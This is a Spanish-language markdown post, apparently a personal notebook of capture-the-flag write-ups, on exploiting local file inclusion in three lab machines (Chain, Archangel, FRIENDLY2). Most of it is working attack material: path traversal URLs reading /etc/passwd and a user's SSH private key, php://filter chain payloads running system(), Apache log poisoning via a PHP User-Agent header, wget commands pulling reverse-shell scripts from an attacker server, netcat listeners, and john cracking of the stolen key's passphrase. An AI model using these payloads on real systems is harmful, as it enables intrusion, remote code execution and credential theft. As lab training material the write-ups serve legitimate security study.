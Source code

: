 ```yaml
---
title: "LFI (Local File Inclusión) [Basico]" 
excerpt: "Ejemplos de ejecucion de un Local File Inclusión"
header:
  teaser: "/assets/images/PathTraversal.jpg"
categories:
  - Vulnerabilidades 
---
```



## Maquina Chain  - VulNyx ( Intrusión básica )
### Parámetros de explotación
 * Url: utils.chaincorp.nyx/include.php?in=whoami.php
### Métodos de explotación 
 * Path traversal hacia el directorio `/etc/passwd`
```bash
utils.chaincorp.nyx/include.php?in=../../../../../../etc/passwd
```

 * Wrapper LFI: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md
Intentaremos ver el archivo `include.php` con un wapper

```bash
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

Nos quedaría así `utils.chaincorp.nyx/include.php?in=php://filter/convert.base64-encode/resource=include.php`

El siguiente paso seria usar https://github.com/synacktiv/php_filter_chain_generator para ejecutar comandos de la siguiente forma 

```bash
pyhton3 php_filter_chain_generator.py --chain "<?php system('ls -l'); ?>"
```

 * Obtener Reverse Shell: al ser la data muy grande el navegador no nos permite ingresarla, para lo cual creamos un archivo `index.html` donde pegamos nuestra reverse Shell, levantamos un servidor con Python `python3 -m http.server 80` y aplicamos al comando un `wget` con dirección a nuestro servidor.
 ```bash
 pyhton3 php_filter_chain_generator.py --chain "<?php system('wget 192.168.0.0'); ?>"
```

una ves se encuentre subido tendremos que saber que se subió como `index.html.1` ya que el servidor ya tiene un archivo con le mismo nombre, ahora solo nos queda ejecutar y ponernos en escucha con netcat, para ello usamos:

nos ponemos en escucha:

```bash
sudo nc -nlvp 443
```

tiramos la ejecución de la reverse Shell

```bash
 pyhton3 php_filter_chain_generator.py --chain "<?php system('bash index.html.1'); ?>"
```

y listo, la intrusión esta terminada.

---

## Archangel - TryHackMe ( Intrusión con log poisoning ) 
### Parámetros de explotación 
 * Url: como notamos la URL interactúa con archivos de la maquina  `http://mafialive.thm/test.phpview=/var/www/html/development_testing/mrrobot.php`
### Métodos de explotación
 * Pad traversal hacia `etc/passwd`
 
```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../etc/passwd
```
 * Probamos con un Log poisoning tirando hacia el archivo `var/log/apache2/access.log` el cual es un archivo que contiene los logs de apache con lo cual ya podríamos ejecutar comandos.

```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log
```

ahora al tener los Logs podemos usarlos usando una petición http al domino de la siguiente forma:

``` bash
curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('whoami'); ?>"
```

y revisamos en los logs, de tal forma que podemos como el servidor responde. acto seguido realizamos un archivo .sh con una reverse Shell, levantamos un servidor con python3 y procedemos ha realizar un `wget` al servidor a fin de poder tener el archivo en la maquina y ejecutarlo, para ello, podemos usar:

```bash
curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('wget http://192.168.10.1/pwned.sh'); ?>"
```

luego debemos darle permisos de ejecución usando el mismo comando con `chmod 777 revershell`, nos ponemos a la escucha con netcat usando `nc -nlvp 443` y procedemos a ejecutar el archivo dentro de la maquina victima  y woala, estamos dentro.


---
## FRIENDLY2 - HackMyVM ( Intrusión con id_rsa )
### Parámetros de explotación
 * Url: Como podemos ver en la URL estamos accediendo a un documento `192.168.0.23/tools/check_if_exist.php?doc=keyboard.html`

### Métodos de explotación
 * Usamos Pad traversal básico `/../../../../` a fin de acceder a `/etc/passwd`, aquí podemos ver que existe el usuario gh0st el cual puede ejecutar código bash. Nosotros nos centraremos en realizar el mismo pad traversal pero hacia el directorio id_rsa de la siguiente forma: 
```bash
192.168.0.23/tools/check_if_exist.php/?doc=../../../../../../../home/gh0st/.ssh/id_rsa
```

encontramos la clave privada para una conexión ssh, le damos permisos de ejecución `chmod 600 id_rsa`, pero estos ficheros normalmente usan un salvoconducto el cual encontraremos sometiendo la clave privada a un proceso con JhonTheRip de la siguiente forma:

```bash
ssh2jhhn id_rsa >> hash
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

y sacamos nuestro salvo conducto que es `celtic`, realizamos la conexión ssh  y finalmente logramos hacer la intrusión. 
```bash
ssh -i id_rsa gh0st@192.168.0.23
```

y wuala!.

